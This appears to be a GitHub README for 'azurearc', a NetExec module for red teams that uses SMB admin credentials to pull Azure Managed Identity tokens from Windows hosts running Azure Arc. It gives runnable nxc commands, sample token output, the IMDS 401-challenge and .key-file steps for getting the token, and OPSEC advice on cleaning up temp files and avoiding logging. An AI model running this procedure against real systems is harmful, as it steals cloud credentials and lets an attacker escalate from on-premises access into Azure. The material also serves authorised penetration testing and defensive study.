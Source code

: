 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}
```

#### 🔍 How It Works (Behavior)
### Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

### Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.
Write JSON to OUTFILE, fetch via SMB, and delete the file.



### 📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />



### 🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


### 🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/


